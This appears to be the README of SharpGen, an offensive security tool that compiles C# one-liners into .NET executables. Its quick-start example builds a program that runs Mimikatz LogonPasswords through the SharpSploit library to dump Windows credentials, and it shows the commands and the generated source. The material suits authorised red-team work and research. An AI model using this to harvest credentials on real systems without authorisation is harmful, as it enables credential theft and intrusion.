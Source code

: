# SharpGen

[SharpGen](https://github.com/cobbr/SharpGen) is a .NET Core console application that utilizes the [Rosyln](https://github.com/dotnet/roslyn) C# compiler to quickly cross-compile .NET Framework console applications or libraries.

### Intro

You'll find details and motivations for the SharpGen project in this [introductory blog post](https://cobbr.io/SharpGen.html).

### Quick Start

The most basic usage of SharpGen would be to provide SharpGen an output filename and a C# one-liner that you’d like to execute. SharpGen will generate a .NET Framework console application that will execute the one-liner. For example:

```
cobbr@mac:~ > git clone https://github.com/cobbr/SharpGen
cobbr@mac:~ > cd SharpGen
cobbr@mac:~/SharpGen > git submodule update --init --recursive
cobbr@mac:~/SharpGen > dotnet build
cobbr@mac:~/SharpGen > dotnet bin/Release/netcoreapp2.1/SharpGen.dll -f example.exe "Console.WriteLine(Mimikatz.LogonPasswords());"
[+] Compiling source:
using System;
using System.IO;
using System.Text;
using System.Linq;
using System.Security.Principal;
using System.Collections.Generic;
using SharpSploit.Credentials;
using SharpSploit.Enumeration;
using SharpSploit.Execution;
using SharpSploit.LateralMovement;
using SharpSploit.Generic;
using SharpSploit.Misc;

public static class jZTyloQN2SU4
{
    static void Main()
    {
        Console.WriteLine(Mimikatz.LogonPasswords());
	    return;
    }
}
[+] Compiling optimized source:
using System;
using SharpSploit.Credentials;

public static class jZTyloQN2SU4
{
    static void Main()
    {
        Console.WriteLine(Mimikatz.LogonPasswords());
	    return;
    }
}
[*] Compiled assembly written to: /Users/cobbr/SharpGen/Output/example.exe
```
